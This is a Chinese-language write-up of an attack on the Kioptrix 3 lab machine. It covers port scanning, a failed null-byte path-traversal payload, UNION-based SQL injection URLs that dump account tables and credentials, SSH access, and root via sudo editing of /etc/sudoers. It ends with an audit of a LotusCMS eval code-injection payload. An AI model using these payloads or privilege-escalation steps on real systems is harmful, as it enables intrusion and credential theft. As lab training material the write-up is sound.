# 靶机描述
 _这是一台标榜难度为简单的靶机。作者在描述中强调，要配置host文件来解析目标ip。_



# 信息收集

## nmap 扫描

1. 主机发现
	目标的 ip 地址是 192.168.2.46。
2. 端口扫描结果

```text
# Nmap 7.98 scan initiated Fri Jul 31 06:43:22 2026 as: /usr/lib/nmap/nmap -sT --min-rate=10000 -p- -oA nmapscan/TCPS 192.168.2.46
Nmap scan report for 192.168.2.46
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:F4:0C:34 (VMware)

# Nmap done at Fri Jul 31 06:43:25 2026 -- 1 IP address (1 host up) scanned in 2.89 seconds

```

	目标开放了 80，22 端口。

3. 详细脚本扫描和漏洞脚本扫描
```text
# Nmap 7.98 scan initiated Fri Jul 31 06:48:23 2026 as: /usr/lib/nmap/nmap -sT -sV -O -sC -p22,80 -oA nmapscan/details 192.168.2.46
Nmap scan report for 192.168.2.46
Host is up (0.00091s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:F4:0C:34 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 06:48:32 2026 -- 1 IP address (1 host up) scanned in 8.59 seconds

# Nmap 7.98 scan initiated Fri Jul 31 06:49:03 2026 as: /usr/lib/nmap/nmap --script=vuln -p22,80 -oA nmapscan/vulns 192.168.2.46
Nmap scan report for 192.168.2.46
Host is up (0.00088s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|_    http://192.168.2.46:80/index.php?page=index%27%20OR%20sqlspider
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-trace: TRACE is enabled
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_      http://ha.ckers.org/slowloris/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.2.46
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.2.46:80/index.php?system=Admin
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://192.168.2.46:80/gallery/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.2.46:80/index.php?system=Admin&page=loginSubmit
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://192.168.2.46:80/gallery/gadmin/
|     Form id: username
|     Form action: index.php?task=signin
|     
|     Path: http://192.168.2.46:80/gallery/index.php
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.2.46:80/index.php?system=Blog&post=1281005380
|     Form id: commentform
|_    Form action: 
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /cache/: Potentially interesting folder
|   /core/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
|_  /style/: Potentially interesting folder
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
MAC Address: 00:0C:29:F4:0C:34 (VMware)

# Nmap done at Fri Jul 31 06:54:25 2026 -- 1 IP address (1 host up) scanned in 322.06 seconds
```

脚本枚举出了，/cache/和/core/等一些有兴趣的目录。爬虫脚本，找到了一个/gallery/gadmin/目录。

## 配置host 文件




# WEB 访问信息收集



这段内容讲了，网站管理员修复网站并且推出了一个新的 CMS。从这几个单词中，可以看出管理人员非常自信也非常谨慎。将新开发的 CMS 放在了测试环境下。dev-server 表示开发服务器。由于考虑到新的CMS没有做过太多的测试。可能会存在一些常见的漏洞。因此，可以把 gallery 目录的优先级提前。 
点击 now 按钮


访问 login 页面发现暴露了网站 CMS 信息。

CMS 名称是 LotusCMS。

# WEB 渗透

## 目录爆破





目录爆破的结果显示，这个网站是暴露了许多功能性质的文件。网站中，为了 WEB 服务的高效运行，开发者会开发添加许多脚本文件。当文件数目达到一定量时，很容易忽略安全防范。比如一些 LFI 和 RCE 也就由此产生。
通过前一步的信息收集，发现 CMS 是 LotusCMS。可能存在漏洞。


这里有个 RCE 漏洞脚本 _(php/webapps/15964.py)_ 。可以尝试一下。结果是利用失败了。


首先对这个脚本进行简单的查看理解。这个脚本利用的是 CMS 漏洞的本地文件包含漏洞。执行的结果是能本地读取任意文件。然后通过 WEB 路径请求构造一句话木马，将访问失败的记录填写到服务器的失败日志中。通过这个 本地文件包含漏洞来包含失败日志执行命令，实现 RCE。当前的提示我们文件包含利用失败了。
通过脚本内的信息，我下载了含有漏洞的 CMS 源码。源码文件中的 core 和 cache文件夹，和路由对象中的，system , page 参数都和目标网站吻合。_可以说这份源码和目标网站上运行的源码版本非常接近。_ 

```text
	public function Router(){
		//Get page request (if any)
		$page = $this->getInputString("page", "index");
		
		//Get plugin request (if any)
		$plugin = $this->getInputString("system", "Page");
		
		//If there is a request for a plugin
		if(file_exists("core/plugs/".$plugin."Starter.php")){
			//Include Page fetcher
			include("core/plugs/".$plugin."Starter.php");

			//Fetch the page and get over loading cache etc...
			eval("new ".$plugin."Starter('".$page."');");
			
		}else if(file_exists("data/modules/".$plugin."/starter.dat")){
			//Include Module Fetching System
			include("core/lib/ModuleLoader.php");
			
			//Load Module
			new ModuleLoader($plugin, $this->getInputString("page", null));
		}else{ //Otherwise load a page from the standard system.
			//Include Page fetcher
			include("core/plugs/PageStarter.php");
			
			//Fetch the page and get over loading cache etc...
			new PageStarter($page);
		}
	}
```

构造 payload
```text
http://kioptrix3.com/index.php?system=../../../../../../../../../../etc/passwd%00
```


这个结果表面，file_exists("core/plugs/".$plugin."Starter.php")执行失败，可能是 %00 截断失败。可能服务器对提交的参数进行处理。要么选择其他方式进行下一步渗透，要么啃手里的源码，看看能不能找到其他 RCE 漏洞。

## 数字型 SQL 注入 获得开发账户权限

通过点击这个选项框，我们发现了一个新的参数 id 。



经过测试，这是一个数字型注入。


1. 爆破所有表名

```sql
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()&sort=size#photos
```


```text
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

这里面我们感兴趣的表是 dev_accounts 和 gallarific_users。

2. 查找 gallarific_users 表

```text
爆破所有字段名
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema=database() and table_name='gallarific_users'&sort=size#photos

查找表中所有的信息
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,concat(username,0x3A,password,0x3A,issuperuser),3,4,5,6 from gallarific_users&sort=size#photos

```



得到账号密码是 admin:n0t7t1k4:1

3. 查找 dev_accounts 表

```text
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema=database() and table_name='dev_accounts'&sort=size#photos

http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,concat(id,0x3A,username,0x3A,password),3,4,5,6 from dev_accounts&sort=size#photos

```

获得结果
```text
1:dreg:0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
2:loneferret:5badcaf789d3d1d09794d8f021f40f0e(starwars)
```





可以尝试将这些凭据去登录。

## ssh 获得立足点

这里的 loneferret:starwars,经过测试可以登录 ssh。


而之前通过 nmap 扫描到一个gadmin 的功能界面。
使用凭据 admin:n0t7t1k4 登录



目前手上已经有了一个 ssh 的立足点，这个 Gallarific 站点就不继续渗透了。考虑如何提升我们的权限。

# 权限提升

登录后，发现用户目录下面有一个 CompanyPolicy.README 文件。


大致意思是，公司要求新员工，只能使用 ht 工具来编辑，创造和浏览文件。从下面权限枚举我们可以看到，我们可以使用 sudo 权限来调用 ht 工具进行浏览，阅读，写文件操作。
这里如果可以 修改 /etc/sudoers 文件。那么我就可以非常轻松的使用 sudo 提权。


调整一下系统环境 TERM 变量为 xterm 。 这是 ssh 进老旧终端常见的报错。可以借助 ai 和搜索引擎。


编辑后的结果，




直接提权，获得最终 flag


# 结合开源靶机的思考

1. 漏洞利用 %00 截断失效
拿下整台机子后，将靶机源码下载到本地，进行代码审计。
```shell
靶机：tar -cvf kioptrix3.com/ kio1.tar 

本地: scp -o HostKeyAlgorithms=+ssh-rsa loneferret@192.168.2.46:/home/www/kio1.tar /tmp/kio1.tar
```





利用失败的原因因为
```php
protected function getInputString($name, $default_value = "", $format = "GPCS")
	{
		//order of retrieve default GPCS (get, post, cookie, session);
		$format_defines = array (
		'G'=>'_GET',
		'P'=>'_POST',
		'C'=>'_COOKIE',
		'S'=>'_SESSION',
		'R'=>'_REQUEST',
		'F'=>'_FILES',
		);
		preg_match_all("/[G|P|C|S|R|F]/", $format, $matches); //splitting to globals order
		foreach ($matches[0] as $k=>$glb)
		{
		    if ( isset ($GLOBALS[$format_defines[$glb]][$name]))
		    {   
			return htmlentities ( trim ( $GLOBALS[$format_defines[$glb]][$name] ) , ENT_NOQUOTES ) ;
		    }
		}
		return $default_value;
	} 
```

这个函数将 %00 进行了处理，htmlentities ( trim ( $GLOBALS[$format_defines[$glb]][$name] ) , ENT_NOQUOTES ) ;

2. 开源脚本利用

红笔视频利用搜索引擎搜索 Github，发现一个可以利用的 RCE 脚本。






也是成功拿下靶机立足点。

3. 漏洞分析
这个利用脚本最核心的地方就是这个部分。
```shell
vuln_check(){
	# page exists, check if vuln... URLencode: "page=index');${print('abc123')};#"
	curl $target$path/index.php --data "page=index%27%29%3B%24%7Bprint%28%27Hood3dRob1n%27%29%7D%3B%23" -o "$storage1" 2> /dev/null
	grep 'Hood3dRob1n' "$storage1" 2> /dev/null 2>&1
	if [ "$?" == 0 ]; then
		echo "Regex found, site is vulnerable to PHP Code Injection!" | grep --color -i -E 'Regex found||site is vulnerable to PHP Code Injection'
		echo
		exploit_funk
	else
		echo "Unable to find injection in returned results, sorry...."
		exit;
	fi

}
```

这个是核心的payload, "page=index');${print('abc123')};#"

漏洞点在这
```php
        $page = $this->getInputString("page", "index");
		
		//Get plugin request (if any)
		$plugin = $this->getInputString("system", "Page");
		
		//If there is a request for a plugin
		if(file_exists("core/plugs/".$plugin."Starter.php")){
			//Include Page fetcher
			include("core/plugs/".$plugin."Starter.php");

			//Fetch the page and get over loading cache etc...
			eval("new ".$plugin."Starter('".$page."');");
			
		}
```
如果不输入 system,那么 $plugin 的值默认就是 Page。就可以直接进入条件，这里的 $page 就是命令执行漏洞的注入点。
 "page=index');${print('abc123')};#" 中使用‘）进行逃逸前面的命令，使用 ${print('abc123')}; 来输出adc123 到前端。也可以使用 system 函数。
 其实，如果没有发现 SQL 注入漏洞的话，难度就提升了档次。这个开源脚本利用和修改的过程，是很值得尝试和学习的。